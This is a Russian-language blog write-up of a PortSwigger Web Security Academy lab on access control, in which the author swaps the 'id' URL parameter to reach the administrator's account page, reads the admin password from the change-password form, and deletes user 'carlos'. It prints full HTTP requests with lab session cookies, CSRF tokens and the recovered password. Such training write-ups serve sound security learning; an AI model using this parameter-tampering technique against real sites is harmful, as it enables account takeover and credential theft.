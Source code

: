```yaml
---
title: "User ID controlled by request parameter with password disclosure"
date: 2025-07-18
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/access-control-apprentice/access-control/lab-user-id-controlled-by-request-parameter-with-password-disclosure"
classes: wide
---
```


Для решения лабы нужно получить пароль администратора и удалить пользователя `carlos`. У нас есть креды аккаунта `wiener:peter`.

```
https://0a08009c04cf91c08113e57500d00040.web-security-academy.net/
```

## Solution

Давайте зайдем в наш аккаунт.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter_with_password_disclosure/1.png){: height="200" .align-center}

Мы можем поменять пароль, давайте это сделаем. Для смены пароля отправляется следующий `HTTP`-запрос:

```http
POST /my-account/change-password HTTP/2
Host: 0a08009c04cf91c08113e57500d00040.web-security-academy.net
Cookie: session=A8ftLNDC7xCMEgpUPJZiUwxuswsUz3Hr
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a7200db03aa32bb8510b21b00ce0097.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Origin: https://0a7200db03aa32bb8510b21b00ce0097.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=OwtMTy0ECLZB4Ye67gZQHm441sE0XH4t&password=peter
```

В `url` профиля `https://0a08009c04cf91c08113e57500d00040.web-security-academy.net/my-account?id=wiener` есть параметр `id`. Попробую подставить другой логин вместо `wiener`. Например, `carlos`.

Получилось. Значит мы можем попробовать получить доступ к другому аккаунту таким образом. Например к аккаунту администратора `administator`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter_with_password_disclosure/2.png){: height="200" .align-center}

Теперь отправим запрос на замену пароля, чтобы увидить старый пароль от аккаута.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter_with_password_disclosure/3.png){: height="200" .align-center}

Из `GET`-запроса мы можем получит пароль администратора `ow5jiz1snvfoh8w5k0wr`. 

```http
POST /my-account/change-password HTTP/2
Host: 0a08009c04cf91c08113e57500d00040.web-security-academy.net
Cookie: session=pGe3qXmI9bEzCKhTqLZX6bNGv0KbdHDz
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a08009c04cf91c08113e57500d00040.web-security-academy.net/my-account?id=administrator
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Origin: https://0a08009c04cf91c08113e57500d00040.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=VXv8WXomogQouSE7PomUtxHnScwSkfgS&password=ow5jiz1snvfoh8w5k0wr
```

Попробуем залогиниться.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter_with_password_disclosure/4.png){: height="200" .align-center}

Мы получили доступ к аккаунту администратора, теперь удалим пользователя `carlos` для завершения лабы.
